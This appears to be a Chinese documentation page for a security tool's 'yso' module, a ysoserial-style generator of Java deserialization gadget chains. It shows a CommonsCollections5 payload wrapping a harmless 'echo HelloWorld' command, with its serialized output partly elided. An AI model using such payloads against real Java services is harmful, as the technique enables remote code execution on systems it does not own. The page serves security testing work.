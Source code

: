 ```yaml
---
sidebar_position: 13
---
```


# Java 反序列化利用链: yso(ysoserial)

Yak 通过非 Java 的方式实现了一整套 Java 反序列化协议。

可以在一定容错限度内劫持绝大部分 Java 反序列化流。

详情参考 [java: java 反序列化协议的 Golang/Yak 实现](/docs/api/java)

## YSoSerial 的 Yak 替代品

在实现了 Java 反序列化协议后，Java 相关漏洞不再需要原生 Java 或硬编码 HEX/Binary 流来实现。

```go
evilCls, err = yso.GetCommonsCollections5("echo HelloWorld")
die(err)

bytes = java.MarshalJavaObjects(evilCls)
hexStr = codec.EncodeToHex(bytes)
base64Str = codec.EncodeBase64(bytes)

dump(bytes)
println(hexStr + "\n")
println(base64Str + "\n")

/*
OUTPUT:

([]uint8) (len=2084 cap=2304) {
 00000000  ac ed 00 05 73 72 00 2e  6a 61 76 61 78 2e 6d 61  |....sr..javax.ma|
 00000010  6e 61 67 65 6d 65 6e 74  2e 42 61 64 41 74 74 72  |nagement.BadAttr|
 00000020  69 62 75 74 65 56 61 6c  75 65 45 78 70 45 78 63  |ibuteValueExpExc|
 00000030  65 70 74 69 6f 6e d4 e7  da ab 63 2d 46 40 02 00  |eption....c-F@..|
                                ......
                                ......
                                ......
                                        c 61 6e 67 2e 4e 75  |xr..java.lang.Nu|
 000007c0  6d 62 65 72 86 ac 95 1d  0b 94 e0 8b 02 00 00 78  |mber...........x|
 000007d0  70 00 00 00 01 73 72 00  11 6a 61 76 61 2e 75 74  |p....sr..java.ut|
 000007e0  69 6c 2e 48 61 73 68 4d  61 70 05 07 da c1 c3 16  |il.HashMap......|
 000007f0  60 d1 03 00 02 46 00 0a  6c 6f 61 64 46 61 63 74  |`....F..loadFact|
 00000800  6f 72 49 00 09 74 68 72  65 73 68 6f 6c 64 78 70  |orI..thresholdxp|
 00000810  3f 40 00 00 00 00 00 00  77 08 00 00 00 10 00 00  |?@......w.......|
 00000820  00 00 78 78                                       |..xx|
}

aced00057372002e6a617661782e6d616e6167656d656e74......c1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f40000000000000770800000010000000007878

rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhj......HVleHIAEGphdmEubGFuZy5OdW1iZXKGrJUdC5TgiwIAAHhwAAAAAXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAABAAAAAAeHg=
*/
```